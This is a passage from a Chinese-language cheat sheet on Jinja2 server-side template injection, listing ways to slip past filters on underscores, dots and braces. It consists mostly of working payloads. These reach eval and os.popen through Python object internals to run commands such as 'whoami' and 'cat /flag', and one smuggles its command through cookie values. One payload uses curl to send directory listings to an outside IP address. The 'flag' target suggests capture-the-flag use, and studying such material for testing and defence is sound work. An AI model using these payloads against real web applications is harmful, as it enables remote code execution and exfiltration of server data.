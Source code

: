 还有格式化字符串(在前面提到过了)
```python
()|attr("%c%cclass%c%c"%(95,95,95,95))
```

#### 编码绕过(前面讲过的编码一般都适用)
16进制编码：
```python
().__class__ = ()["__class__"] = ()["\x5f\x5fclass\x5f\x5f"
```
Unicode编码：
```python
().__class__ = ()["__class__"] = ()["\u005f\u005fclass\u005f\u005f"]
```


### 2.3 过滤`.`
#### 中括号
```python
''.__class__ = ''["__class__"]
```
#### 过滤器
```python
''.__class__ = ''|attr("__class__")
```


### 2.4 过滤`{}`
#### `{%%}`绕过
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__=='_IterationGuard' %}
{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()") }}
{% endif %}
{% endfor %}
```

#### `{% if ... %}1{% endif %}`curl外带绕过
```python
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://xx.xxx.xx.xx:8080/?i=ls /').read()=='p' %}1{% endif %}
```

#### `{%print(......)%}`绕过
```python
# 1
{%print(x|attr(request.cookies.init)|attr(request.cookies.globals)|attr(request.cookie.getitem)|attr(request.cookies.builtins)|attr(request.cookies.getitem)(request.cookies.eval)(request.cookies.command))%}
#cookie: init=__init__;globals=__globals__;getitem=__getitem__;builtins=__builtins__;eval=eval;command=__import__("os").popen("cat /flag").read()

# 2
{%print(''.__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()"))%}
```
